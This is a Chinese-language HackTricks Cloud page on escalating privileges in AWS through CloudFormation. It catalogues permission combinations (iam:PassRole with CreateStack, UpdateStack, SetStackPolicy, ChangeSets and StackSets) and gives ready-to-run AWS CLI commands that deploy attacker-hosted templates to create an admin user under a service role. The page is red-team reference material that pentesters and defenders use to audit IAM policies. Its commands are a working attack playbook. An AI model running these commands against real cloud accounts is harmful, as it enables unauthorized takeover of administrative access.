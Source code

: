 # AWS - Cloudformation 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## cloudformation

有关cloudformation的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有 **`iam:PassRole`** 和 **`cloudformation:CreateStack`** 权限的攻击者可以通过创建一个CloudFormation模板来**提升权限**，该模板将使用在创建CloudFormation堆栈时传递的**角色的权限**来执行操作和创建资源。
```bash
aws cloudformation create-stack --stack-name my_stack \
--template-url http://my-website.com/my-malicious-template.template \
--role-arn arn_of_cloudformation_service_role
```
当攻击者的网站上的模板包含执行**恶意行为的指令，例如创建管理员用户**，然后使用这些凭证来提升他们自己的访问权限。

在以下页面中，您有一个**利用示例**，附加权限为**`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：**提升至指定的cloudformation服务角色权限。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以**滥用现有的cloudformation堆栈**，更新它并像前一个场景一样提升权限：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**对一个堆栈进行攻击。

**潜在影响：**提升到指定的 cloudformation 服务角色权限。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果你有这个权限但**没有 `iam:PassRole`**，你仍然可以**更新堆栈**并滥用它们已经附加的**IAM 角色**。检查前一节的利用示例（只是在更新时不指定任何角色）。

`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**对一个堆栈进行攻击。

**潜在影响：**提升到已经附加的 cloudformation 服务角色权限。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

拥有**传递角色和创建 & 执行 ChangeSet 权限**的攻击者可以**创建/更新一个新的 cloudformation 堆栈滥用 cloudformation 服务角色**，就像使用 CreateStack 或 UpdateStack 一样。

以下利用是**CreateStack 利用的**[**变体**](./#iam-passrole-cloudformation-createstack)，使用**ChangeSet 权限**来创建堆栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `ChangeSet` 权限**对一个堆栈进行攻击。

**潜在影响：** 提升至 cloudformation 服务角色的权限。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这种方法类似于之前的方法，不通过传递 **IAM 角色**，因此你可以直接**滥用已经附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：** 提升至已连接的cloudformation服务角色的权限。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以滥用这些权限来创建/更新StackSets，以滥用任意cloudformation角色。

**潜在影响：** 提升至cloudformation服务角色的权限。

### `cloudformation:UpdateStackSet`

攻击者可以在没有passRole权限的情况下滥用此权限来更新StackSets，以滥用已连接的cloudformation角色。

**潜在影响：** 提升至已连接的cloudformation角色的权限。

## 参考资料

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来**分享您的黑客技巧。

</details>
